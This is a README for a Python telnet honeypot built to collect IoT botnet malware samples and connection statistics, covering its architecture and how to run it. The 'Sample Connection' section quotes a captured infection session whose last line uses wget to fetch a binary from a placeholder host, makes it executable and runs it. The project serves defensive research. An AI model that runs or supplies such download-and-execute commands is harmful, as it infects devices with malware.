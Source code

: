 # Telnet IoT honeypot

Live Demo: http://phype.pythonanywhere.com/

'Python telnet honeypot for catching botnet binaries'

This project implements a python telnet server trying to act
as a honeypot for IoT Malware which spreads over horribly
insecure default passwords on telnet servers on the internet.

Other than https://github.com/stamparm/hontel or https://github.com/micheloosterhof/cowrie (examples),
which provides full (via chroot) or simulated behaviour of a linux
system this honeypots goal is just to collect statistics of (IoT) botnets.
This means that the honeypot must be made to work with every form of automated telnet session,
which may try to infect the honeypot with malware.
Luckily, these malwares infection processes are quite simple,
just using wget do download something and running it.

## Architekure

The application has a client/server architekture,
with a client (the actual honeypot) accepting telnet connections
and a server aggregating connection data and sample analysis.

However, for local deployments, the application can also be run
in local mode to eliminate the need to run a client and server locally.

# Running

The application has a config file named config.py.
Samples are included for local and client/server deployments.

## Client/Local Mode

	python honeypot.py

## Server

	python backend.py

## Opening the frontend

After the server is started, open `html/index.html` in your favorite browser.
For this to work, the url in `html/apiurl.js` should point to your running backend,
which it should do automatically for local deployments.

## Sample Connection

	enable
	shell
	sh
	cat /proc/mounts; /bin/busybox PEGOK
	cd /tmp; (cat .s || cp /bin/echo .s); /bin/busybox PEGOK
	nc; wget; /bin/busybox PEGOK
	(dd bs=52 count=1 if=.s || cat .s)
	/bin/busybox PEGOK
	rm .s; wget http://example.com:4636/.i; chmod +x .i; ./.i; exit

## Images

![Screenshot 1](images/screen1.png)

![Screenshot 2](images/screen2.png)

